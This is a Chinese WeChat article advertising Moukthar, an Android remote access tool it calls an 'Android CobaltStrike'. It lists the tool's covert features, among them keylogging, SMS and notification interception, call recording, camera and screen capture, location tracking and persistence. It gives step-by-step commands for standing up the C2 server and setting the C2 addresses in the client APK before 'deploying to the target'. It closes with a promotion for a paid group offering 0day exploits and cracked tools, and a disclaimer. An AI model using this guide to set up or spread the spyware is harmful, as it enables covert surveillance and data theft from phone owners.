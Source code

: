 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247492897&idx=1&sn=200f78d280c37069d42eb4e905bb1352

#  安卓版CobaltStrike：远程控制的终极利器|漏洞探测  
Tomiwa-Ot  渗透安全HackTwo   2025-07-01 16:00  
  
0x01 工具介绍  
  
  
**Moukthar作为一款强大的开源远程管理工具，以其权限绕过、键值记录、短信监听等硬核功能，成为安卓设备管理的“黑科技”利器。无论是安全研究还是设备管理，Moukthar都能提供高效、稳定的解决方案。本文将带你深入了解Moukthar的强大功能与安装步骤，助你快速上手，轻松掌控安卓设备的方方面面。这款堪称“安卓版CobaltStrike”的工具，解锁远程管理的无限可能！**  
  
**注意：**  
现在只对常读和星标的公众号才展示大图推送，建议大家把  
**渗透安全HackTwo**  
"**设为****星标⭐️**  
"  
**否****则可能就看不到了啦！**  
  
**下载地址在末尾#渗透安全HackTwo**  
  
0x02   
功能简介  
  
  
工具特点  
  
Android 远程管理工具  
  
- 权限绕过（Android 12 及以下）https://youtube.com/shorts/-w8H0lkFxb0  
- 键盘记录器https://youtube.com/shorts/Ll9dNrkjFOA  
- 通知监听器  
- 短信监听器  
- 电话录音  
- 图像捕捉和截图  
- 视频录制  
- 持久性  
- 读取和写入联系人  
- 列出已安装的应用程序  
- 下载和上传文件  
- 获取设备位置截图  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6yqobwtWG0pBzy8icSBZ3VxC4CoQKMcZXbj7IAicAcTDUcm8mia9O8pVSfw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6y3plPkvviaRMnqPNvezVnCQEduru3DMrUc7icQHVwDnnxMsgD3tfY5PGA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6yx25wlNPRnCr75MibIVNcYN0pc4h1eHQt4dllVrdWRRPvUWiajqW0drfA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6yKTF7ictGAZRX2GAWreg4SgIO9J4kS59BRDqozfGg1SvtccXDtMibicsjA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6y8hlGmSlzlqlIu0QTah6icHnfib9VnKAxsJXpeIe4otW3cuSQwCEubYKg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6ys9qRQpo4Toopviayib0ESJczqxjpFDg31iaNnJdw3vsgJVyBBup2Hwxgw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq565icRGqdbDPMMlptLujM6ywkoWEAibhrRPutq9llOuXticyqOB1vs5kcBOoicd1L5Eiajn5iazTVTvE9A/640?wx_fmt=png&from=appmsg "")  
###   
  
0x03更新说明  

```
仪表板上的自动滚动日志
屏幕截图不起作用
当应用程序未聚焦时，图像/视频捕获不起作用
使用 DownloadManager 在应用程序中下载文件不起作用
列出目录的组成部分并不列出所有文件/文件夹
```

  
0x04 使用介绍  
  
📦用法  
  
下载  
moukthar
```
moukthar.zip
```

  
  
安装 php、composer、mysql、php-mysql 驱动程序、apache2 和 a2enmod  
  
将服务器文件移动到/var/www/html/并安装依赖项  

```
mv moukthar/Server/* /var/www/html/
cd /var/www/html/c2-server
composer install
cd /var/www/html/web-socket/
composer install
cd /var/www
chown -R www-data:www-data .
chmod -R 777 .
```

  
默认凭据是用户名：android和密码：android  
  
创建新的 SQL 用户  

```
CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
FLUSH PRIVILEGES;
```

  
c2-server/.env在和中设置数据库凭据web-socket/.env  
  
执行database.sql  
  
在 Linux 中启动 Web 套接字服务器或部署为服务  

```
php Server/web-socket/App.php
# OR
sudo mv Server/websocket.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable websocket.service
sudo systemctl start websocket.service
```

  
调整  
  
/etc/apache2/sites-available/000-default.conf  

```
<VirtualHost *:80>
      ServerAdmin webmaster@localhost
      DocumentRoot /var/www/html/c2-server
      DirectoryIndex app.php
      Options -Indexes
      ErrorLog ${APACHE_LOG_DIR}/error.log
      CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

  
调整/etc/apache2/apache2.conf  

```
  Comment this section
  #<Directory />
  #       Options FollowSymLinks
  #       AllowOverride None
  #       Require all denied
  #</Directory>
 Add this
  <Directory /var/www/html/c2-server>
      Options -Indexes
      DirectoryIndex app.php
      AllowOverride All
      Require all granted
  </Directory>
```

  
增加 php 文件上传最大大小  
  
/etc/php/*.*/apache2/php.ini  

```
; Increase size to permit large file uploads from client
upload_max_filesize = 128M
; Set post_max_size to upload_max_filesize + 1
post_max_size = 129M
```

  
c2-server/src/View/home.php在 <script>标签中设置 Web 套接字服务器地址c2-server/src/View/features/files.php  

```
const ws = new WebSocket('ws://IP_ADDRESS:8080');
```

  
使用以下命令重新启动 apache  

```
sudo a2enmod rewrite && sudo service apache2 restart
```

  
在客户端设置C2服务器和Web套接字服务器地址functionality/Utils.java  

```
public static final String C2_SERVER = &#34;http://localhost&#34;;
public static final String WEB_SOCKET_SERVER = &#34;ws://localhost:8080&#34;;
```

  
使用 Android Studio 编译 APK 并部署到目标  
  
视频教程  

```
https://www.youtube.com/watch?v=ykOx19hAaD4
```

  
  
  
**0x05 内部VIP星球介绍-V1.4（福利）**  
  
        如果你想学习更多**渗透测试技术/应急溯源/免杀/挖洞赚取漏洞赏金/红队打点**  
欢迎加入我们**内部星球**  
可获得内部工具字典和享受内部资源和  
内部交流群，**每1-2天更新1day/0day漏洞刷分上分****(2025POC更新至4000+)**  
**，**  
包含网上一些**付费****工具及BurpSuite自动化漏****洞探测插件，AI代审工具等等**  
。shadon\Quake\  
Fofa高级会员，CTFShow等各种账号会员共享。详情直接点击下方链接进入了解，觉得价格高的师傅可后台回复"   
**星球**  
 "有优惠券名额有限先到先得！全网资源  
最新  
最丰富！**（🤙截止目前已有1900+多位师傅选择加入❗️早加入早享受）**  
  
****  
  
**👉****点击了解加入-->>内部VIP知识星球福利介绍V1.4版本-1day/0day漏洞库及内部资源更新**  
  
****  
  
  
结尾  
  
# 免责声明  
  
  
# 获取方法  
  
  
**公众号回复20250702获取下载**  
  
# 最后必看-免责声明  
  
  
      
文章中的案例或工具仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，勿用于非法行为。如  
用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用。  
如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。本工具或文章或来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
**1.内部VIP知识星球福利介绍V1.4（AI自动化工具）**  
  
**2.CS4.8-CobaltStrike4.8汉化+插件版**  
  
**3.最新BurpSuite2025.2.1专业版（新增AI模块）**  
  
**4. 最新xray1.9.11高级版下载Windows/Linux**  
  
**5. 最新HCL AppScan Standard**  
  
  
渗透安全HackTwo  
  
微信号：关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
[全面资产收集流程及方法解析 万字长文窥探信息收集|挖洞技巧](https://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247491574&idx=1&sn=48d865c82a228bd135a035419c765e94&scene=21#wechat_redirect)  
  
  
